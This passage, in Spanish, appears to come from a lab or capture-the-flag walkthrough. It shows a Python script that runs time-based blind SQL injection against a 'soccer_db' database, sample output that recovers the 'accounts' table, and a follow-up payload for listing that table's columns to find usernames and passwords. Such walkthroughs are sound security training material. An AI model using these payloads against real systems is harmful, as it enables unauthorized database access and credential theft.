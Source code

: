 ```python
        fin = time.time()
        response = False
        if fin - inicio >= 2:
            response = True
            global tables
            global let
            tables += let
            p2.status(tables)
        return response

def peticion(request):
    response= asyncio.get_event_loop().run_until_complete(send_request(request))
    return response

if __name__ == "__main__":

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Tables: ")
    time.sleep(2)
    for position in range(1,100):
        for letter in letters:
            let = letter
            payload = f"or if(substr((select group_concat(table_name) from information_schema.tables where table_schema='soccer_db'),{position},1)=\'{letter}\',sleep(2),1)"
            request = "{\"id\":\"1 "+payload+"\"}"
            p1.status(request)
            response = peticion(request)
            if response:
                break
```

Al cabo de un rato descubriremos:

```bash
 python3 tables.py 
[◤] SQLI: {"id":"1 or if(substr((select group_concat(table_name) from information_schema.tables where table_schema='soccer_db'),12,1)='l',sleep(2),1)"}
[|] Tables: : accounts
```

En la base de datos soccer_db solo existe la tabla ***accounts***.

### Columnas de la tabla *accounts*

Ahora listaremos todas las **columnas** de la tabla accounts. Deberíamos de encontrar dos columnas que hicieran alusión al nombre de **usuario** y **contraseña**.

La query es la siguiente:

```python
"{"id":"1 or if(substr((select group_concat(column_name) from information_schema.columns where table_name='accounts'),{position},1)='{letter}',sleep(2),1)}"
```
